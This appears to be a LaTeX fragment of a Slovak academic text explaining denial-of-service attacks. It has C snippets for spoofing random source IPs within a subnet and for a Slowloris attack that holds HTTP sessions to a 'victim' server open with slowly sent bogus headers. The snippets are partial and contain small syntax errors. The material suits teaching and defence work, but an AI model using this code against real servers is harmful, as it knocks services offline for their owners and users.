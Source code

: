 \documentclass[12pt, a4paper]{article}
\begin{document}
\begin{lstlisting}[caption=Vytvorenie náhodnej IP adresy obmedzenej podsieťou]
in_addr_t ip_random(in_addr_t net, int cidr)
{
    in_addr_t net_mask = (~0 << (32 - cidr));
    in_addr_t host_mask = ~net_mask;
    in_addr_t target_host = 0;
    if (host_mask != 0) target_host = rand() % host_mask;
    return htonl((ntohl(net) & net_mask) | target_host);
}
\end{lstlisting}

Keďže po uvedenom zásahu do zdrojovej IP adresy nedokáže systémový protokolový zásobník
priradiť MAC adresu rozhrania pôvodcu, pretože nemusí ísť dokonca ani o adresu dohľadateľnú
cez protokol ARP, je potrebné Ethernet rozhranie explicitne pomenovať. Po skopírovaní názvu 
do štruktúry \verb|ifreq| vyhľadáme index cez systémové volanie \verb|ioctl| a cez \verb|setsockopt| 
a vlajku \verb|SO_BINDTODEVICE| napojíme socket na príslušné linkové rozhranie.
\begin{lstlisting}
strcpy(ifr.ifr_name, "enp3s0"); 
ioctl(s, SIOCGIFINDEX, &ifr);
setsockopt(s, SOL_SOCKET, SO_BINDTODEVICE, &ifr);
\end{lstlisting}

Narozdiel od záplavových útokov, kedy je myšlienkou zapratať sieť obete, spočíva útok Slowloris
v obsadení všetkých nadviazateľných HTTP relácii s webovým serverom neukončením žiadnej požiadavky
dvojicou nových riadkov ako ukladá protokol HTTP, ale pomalým posielaním stále ďalších podvodných
hlavičiek. Vypršaním časovača na strane webservera sú spojenia pomaly uzatvárané s chybovým
stavovým kódov, preto je nutné ich pravidelne obnovovať. Tentoraz nevieme podsunúť neplatnú adresu
zdroja, pretože agent musí kompletne nadviazať TCP spojenie. 
 
\begin{lstlisting}[caption=Odoslanie HTTP GET požiadavky s náhodným URL query parametrom]
int s = socket(AF_INET, SOCK_STREAM, 0);
connect(s, (struct sockaddr *)&victim, sizeof(victim))
snprintf(buffer, LEN, "GET /?%d HTTP/1.1\r\n", rand() % 1000);
send(s, buffer, strlen(buffer), 0);
\end{lstlisting}

\begin{lstlisting}[caption=Udržiavanie živosti relácie pravidelným posielaním nových dát]
for (int i = 0; i < CNT; i++) {
    snprintf(buffer, BUF_LEN, "X-a: %d\r\n", rand() % 50000));
    send(sockets[i], buffer, strlen(buffer), 0); }
sleep(10);
\end{lstlisting}
\end{document}
